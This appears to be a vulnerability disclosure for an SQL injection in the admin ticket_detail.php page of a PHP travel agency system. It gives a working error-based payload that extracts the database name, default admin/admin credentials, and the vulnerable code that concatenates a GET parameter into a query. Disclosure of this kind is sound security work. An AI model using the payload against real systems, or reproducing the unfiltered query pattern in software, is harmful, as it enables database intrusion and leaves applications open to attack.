

# [Online Travel Agency System-SQL Injection-ticket_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/ticket_detail.php?ticket_id=15`    

**[Vulnerability Location]:** Travel/admin/ticket_detail.php

**[Vulnerability Test]:**

1. payload:`ticket_id=15%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/ticket_detail.php

```php
<?php 
  $sql="select*from ticket where ticket_id='$_GET[ticket_id]'";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  while($row=mysqli_fetch_array($result))
  { //	  	 	 	 	 	 	 	 	 	 		 	 	 	 	
	  $ticket_id=$row["ticket_id"];
	  $ticket_no=$row["ticket_no"];
	  $costomer_id=$row["costomer_id"];
	  $date=$row["date"];
	  $sector_from=$row["sector_from"];
	  $sector_to=$row["sector_to"];
	  $airline_name=$row["airline_name"];
	  $airline_no=$row["airline_no"];
	  $date_of_insertion=$row["date_of_insertion"];
	  $inserted_by=$row["inserted_by"];// 
  }
  ?>
```

The GET parameter `ticket_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

